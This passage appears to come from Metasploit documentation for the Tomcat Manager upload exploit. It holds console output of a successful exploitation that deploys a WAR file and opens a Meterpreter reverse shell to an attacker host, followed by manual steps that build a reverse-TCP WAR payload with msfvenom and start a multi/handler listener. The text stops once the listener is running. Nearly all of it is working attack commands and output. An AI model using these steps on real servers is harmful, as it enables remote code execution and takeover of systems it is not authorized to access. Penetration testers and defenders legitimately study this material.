     [*] Tomcat Manager found running on linux platform and x64 architecture
    [*] 192.168.2.118:8088 The target appears to be vulnerable.
    msf exploit(tomcat_mgr_upload) > exploit
    
    [*] Started reverse TCP handler on 192.168.2.117:4444 
    [*] Retrieving session ID and CSRF token...
    [*] Finding CSRF token...
    [*] Uploading and deploying Bjf01M65XUROXL36wmIc85OmtY...
    [*] Uploading 6092 bytes as Bjf01M65XUROXL36wmIc85OmtY.war ...
    [*] Executing Bjf01M65XUROXL36wmIc85OmtY...
    [*] Executing /Bjf01M65XUROXL36wmIc85OmtY/UbPmEhI1wkAf8Yj1rTohvPQWPIADy5.jsp...
    [*] Finding CSRF token...
    [*] Undeploying Bjf01M65XUROXL36wmIc85OmtY ...
    [*] Sending stage (49409 bytes) to 192.168.2.118
    [*] Meterpreter session 3 opened (192.168.2.117:4444 -> 192.168.2.118:33814) at 2017-01-15 20:08:13 -0500
    
    meterpreter > sysinfo
    Computer    : tomcat
    OS          : Linux 4.4.0-59-generic (amd64)
    Meterpreter : java/linux
    ```

# Manual Exploitation

## Create payload
This was performed on Windows XP with the following permissions as the user that was used to login:

* Tomcat 6.0.48: `manager`
* Tomcat 7.0.73: `manager-gui`
* Tomcat 8.0.39: `manager-gui`

```
/metasploit-framework# msfvenom -p java/meterpreter/reverse_tcp LHOST=192.168.2.117 LPORT=7777 -f war -o meterp.war
Payload size: 6072 bytes
Final size of war file: 6072 bytes
Saved as: meterp.war
```

## Setup Handler

```
msf > use exploit/multi/handler 
msf exploit(handler) > set payload java/meterpreter/reverse_tcp 
payload => java/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.2.117
lhost => 192.168.2.117
msf exploit(handler) > set lport 7777
lport => 7777
msf exploit(handler) > exploit

[*] Started reverse TCP handler on 192.168.2.117:7777 
[*] Starting the payload handler...
```

